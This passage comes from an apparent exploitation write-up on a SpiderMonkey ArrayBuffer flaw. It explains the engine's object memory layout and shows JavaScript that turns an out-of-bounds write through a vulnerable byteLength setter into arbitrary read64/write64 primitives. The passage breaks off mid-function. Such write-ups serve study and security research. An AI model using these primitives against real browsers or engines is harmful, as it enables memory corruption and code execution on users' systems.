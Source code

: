 ```
---[Meta Data]---
*shape
*slots
*elementsHeader
*elementsData  --------------
byteLength                   |
*typedArrayObj               |
offset                       |
---[Data]---                 |
0x414141414141         <-----
...
```

`shape`: Points to names of properties and corresponding indices into the slots array.

`slots`: Points to an array of values for properties. Here: `emptyObjectSlotsHeaders`.

`elementsHeader`: Here `emptyElementsHeader`.

`elementsData`: Points to the data (our array contents).

`byteLength`: The byteLength we can set via the vulnerable setter.

`typedArrayObj`: This is a tagged pointer that is pointing to the BigUint64Array Metadata.

`offset`: Contains `0xfff8800000000000` which is the value zero, type tagged as an integer.

More detailed information can be found in this post: <https://vigneshsrao.github.io/posts/play-with-spidermonkey/>. The most important value, for now, is the data pointer (here: `0x0000058dcd46a0c8`) which points to the actual data being stored in the ArrayBuffer. Since we set the length of ArrayBuffer "A" to 1000, we can read or write any of the following 125 (1000/8) values. If we were to overwrite the data pointer of ArrrayBuffer "B" to a location where we want to read or write, we could then simply index into "B" to read or write anywhere on the system.

Let’s test this assumption and create some helper functions `read64` and `write64`. These functions both use the out-of-bounds write we achieved via "A" to set the data pointer of "B" to a location of our choice. We then either read or set the value by indexing into "B" as TypedArray.

```js
// create an ArrayBuffer A and set its length to a large value
aBuf = new ArrayBuffer(80);
aBuf.byteLength = 1000;
aBuf = new BigUint64Array(aBuf)
aBuf[0] = 0x4141414141414141n

// create a second ArrayBuffer B to have an adjacent object
bBuf = new ArrayBuffer(80);
bBufTyped = new BigUint64Array(bBuf)
bBufTyped[0] = 0x4242424242424242n
bBufTyped[1] = 0x4343434343434343n


function read64(addr){
    // overwrite metadata, pointer to data
    aBuf[15] = addr
    // access B as a TypedArray to get a 64 bit value back
    let typedB = new BigUint64Array(bBuf)
    // return first element (exactly where the changed data pointer points to)
    return typedB[0]
}

function write64(addr, value){
    // overwrite metadata, pointer to data
    aBuf[15] = addr
    // access B as a TypedArray to get a 64 bit value back
    let typedB = new BigUint64Array(bBuf)
    // set first element (exactly where the changed data pointer points to)
    typedB[0] = value
```